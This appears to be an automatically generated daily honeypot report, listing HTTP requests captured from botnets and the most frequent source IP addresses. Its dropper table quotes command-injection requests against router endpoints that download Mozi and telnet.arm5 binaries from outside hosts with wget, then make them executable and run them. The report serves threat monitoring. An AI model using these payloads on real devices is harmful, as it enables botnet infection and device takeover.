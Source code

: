 ```yaml
---
title: "Report: 2025-01-28 "
date: 2025-01-28
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-01-28
interaction report on http service of various Hhoneypot around the world.
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## botnet_dropper_behaviour
|    | remote_addr     | request                                                                                                                                                                        |
|---:|:----------------|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  0 | 81.17.101.155   | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.90.162.234/wdjkalwww/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                  |
|  1 | 175.107.2.120   | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                          |
|  2 | 112.113.206.189 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://112.113.206.189:45650/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                   193 | 172.105.184.153 |
|   1 |                    57 | 78.153.140.179  |
|   2 |                    48 | 92.255.57.58    |
|   3 |                    45 | 111.53.239.122  |
|   4 |                    45 | 4.213.162.155   |
|   5 |                    37 | 146.19.24.168   |
|   6 |                    30 | 78.153.140.149  |
|   7 |                    30 | 5.181.190.248   |
|   8 |                    30 | 185.196.220.253 |
|   9 |                    23 | 24.144.89.39    |
|  10 |                    14 | 95.214.55.43    |
|  11 |                    13 | 104.248.229.219 |
|  12 |                    12 | 52.15.68.63     |
|  13 |                    12 | 45.58.159.71    |
|  14 |                    12 | 179.43.191.146  |
|  15 |                    12 | 162.243.36.96   |
|  16 |                    11 | 31.132.219.141  |
|  17 |                    10 | 80.82.77.202    |
|  18 |                     9 | 95.214.55.132   |